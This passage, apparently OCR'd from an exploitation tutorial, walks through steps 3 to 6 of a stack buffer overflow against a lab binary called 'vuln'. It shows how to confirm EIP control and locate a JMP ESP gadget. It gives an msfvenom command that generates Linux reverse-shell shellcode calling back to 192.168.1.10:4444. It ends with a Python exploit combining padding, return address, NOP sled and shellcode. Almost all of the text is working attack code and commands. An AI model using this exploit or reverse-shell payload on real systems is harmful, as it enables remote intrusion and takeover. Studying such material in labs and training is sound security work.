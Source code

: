 **Step 3: Verify Control of EIP**
```python
#!/usr/bin/env python3
import struct

offset = 76
eip = struct.pack("<I", 0x42424242)  # "BBBB" in little-endian
payload = b"A" * offset + eip

print(payload)
```

```bash
./vuln $(python3 exploit.py)
# In gdb, EIP should be 0x42424242
```

**Step 4: Find JMP ESP**
```bash
# Using objdump
objdump -d vuln | grep "jmp.*esp"

# Or use msf-nasm_shell
msf-nasm_shell
nasm > jmp esp
# Output: 00000000  FFE4              jmp esp

# Search for FFE4 in binary
objdump -d vuln | grep "ff e4"
```

**Step 5: Generate Shellcode**
```bash
# Generate reverse shell shellcode
msfvenom -p linux/x86/shell_reverse_tcp LHOST=192.168.1.10 LPORT=4444 -b "\x00\x0a\x0d" -f python

# Output will be in format:
buf =  b""
buf += b"\xda\xc1\xba\x9e\x6a\x17..."
```

**Step 6: Complete Exploit**
```python
#!/usr/bin/env python3
import struct

# Configuration
offset = 76
jmp_esp = 0x080484a3  # Address of JMP ESP instruction
nops = b"\x90" * 16   # NOP sled

# Shellcode (msfvenom generated)
shellcode =  b""
shellcode += b"\xda\xc1\xba\x9e\x6a\x17\x86\xd9\x74\x24\xf4\x5e\x29"
shellcode += b"\xc9\xb1\x12\x83\xee\xfc\x31\x56\x13\x03\x7a\xa9\x5d"
# ... (full shellcode)

# Build payload
payload = b"A" * offset
payload += struct.pack("<I", jmp_esp)
payload += nops
payload += shellcode

print(payload.decode('latin-1'))
```

